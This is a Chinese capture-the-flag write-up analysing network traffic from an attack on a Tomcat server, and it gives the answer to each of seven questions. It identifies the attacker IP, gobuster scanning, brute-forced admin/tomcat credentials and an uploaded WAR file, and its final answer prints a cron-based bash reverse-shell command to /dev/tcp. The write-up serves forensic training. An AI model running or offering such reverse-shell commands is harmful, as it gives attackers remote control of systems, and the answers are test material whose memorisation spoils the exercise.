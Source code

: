 # 第六章 流量特征分析 - 常见攻击事件 tomcat

## 1

> 在 web 服务器上发现的可疑活动, 流量分析会显示很多请求, 这表明存在恶意的扫描行为, 通过分析扫描的行为后提交攻击者 IP flag 格式：flag\{ip\}，如：flag\{127.0.0.1\}

在流量中可以发现大量的端口扫描行为

![img](img/image_20240612-131258.png)

```flag
flag{14.0.0.120}
```

## 2

> 找到攻击者 IP 后请通过技术手段确定其所在地址 flag 格式: flag\{城市英文小写 \}

直接查看数据库即可，例如 [14.0.0.120 IP Address Geolocation Lookup Demo | IP2Location](https://www.ip2location.com/demo/14.0.0.120)

```flag
flag{guangzhou}
```

## 3

> 哪一个端口提供对 web 服务器管理面板的访问？ flag 格式：flag\{2222\}

使用过滤器 `frame.number >= 19949` 筛选掉端口爆破的数据包

![img](img/image_20240618-131804.png)

找到 `/admin-console` 这个路由的数据包，显示其目标端口为 `8080`

```flag
flag{8080}
```

## 4

> 经过前面对攻击者行为的分析后, 攻击者运用的工具是？ flag 格式：flag\{名称 \}

查看 HTTP 请求的请求头

```plaintext
GET /admin-console HTTP/1.1
Host: 10.0.0.112:8080
User-Agent: gobuster/3.6
Accept-Encoding: gzip
```

```flag
flag{gobuster}
```

## 5

> 攻击者拿到特定目录的线索后, 想要通过暴力破解的方式登录, 请通过分析流量找到攻击者登录成功的用户名和密码？ flag 格式：flag\{root-123\}

定位到登陆尝试的部分

![img](img/image_20240624-132432.png)

定位到最后一次登陆成功的流量

![img](img/image_20240625-132508.png)

```flag
flag{admin-tomcat}
```

## 6

> 攻击者登录成功后, 先要建立反弹 shell, 请分析流量提交恶意文件的名称？ flag 格式：flag\{114514.txt\}

在流量中发现了上传 `war` 包的行为

![img](img/image_20240603-210358.png)

```flag
flag{JXQOZY.war}
```

## 7

> 攻击者想要维持提权成功后的登录, 请分析流量后提交关键的信息？ flag 提示, 某种任务里的信息

跟踪后续的 TCP 流量，可以发现

![img](img/image_20240604-210453.png)

很明显的基于 Cronjob 实现的反弹 shell

```flag
flag{/bin/bash -c 'bash -i>& /dev/tcp/14.0.0.120/443 0>&1'}
```
